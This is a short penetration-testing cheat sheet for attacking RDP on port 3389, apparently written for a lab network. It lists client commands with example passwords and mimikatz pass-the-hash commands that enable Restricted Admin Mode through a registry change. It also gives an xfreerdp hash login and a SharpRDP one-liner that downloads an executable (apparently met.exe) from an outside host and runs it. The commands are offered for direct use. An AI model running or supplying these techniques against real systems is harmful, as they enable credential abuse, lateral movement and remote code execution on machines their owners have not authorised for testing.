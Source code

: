# (3389) RDP

### Tools for RDP

<table><thead><tr><th width="163"></th><th width="154">Remmina</th><th>xfreerdp</th><th>rdesktop</th></tr></thead><tbody><tr><td>Command</td><td>remmina</td><td>xfreerdp /u:user /p:password321 /v:10.10.202.204</td><td>rdesktop -u admin -p password123 10.10.202.204</td></tr></tbody></table>

<details>

<summary>Restricted Admin Mode</summary>

* Not enabled by default
* Allows Pass-the-hash RDP login if enabled

Enabled using:

```
mimikatz # sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:powershell
Enter-PSSession -Computer appsrv01
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

Then, login using PtH:

```
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
```

Or using Remmina:

![](<../.gitbook/assets/image (3).png>)

Or using xfreerdp:

```
xfreerdp /u:admin /pth:2892D26CDF84D7A70E2EB3B9F05C425E /v:192.168.122.6 /cert-ignore
```

</details>

<details>

<summary>Headless RDP Connection</summary>

* SharpRDP: RDP without GUI

```
sharprdp.exe computername=appsrv01 command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/met.exe', 'C:\Windows\Tasks\met.exe'); C:\Windows\Tasks\met.exe" username=corp1\dave password=lab
```

</details>
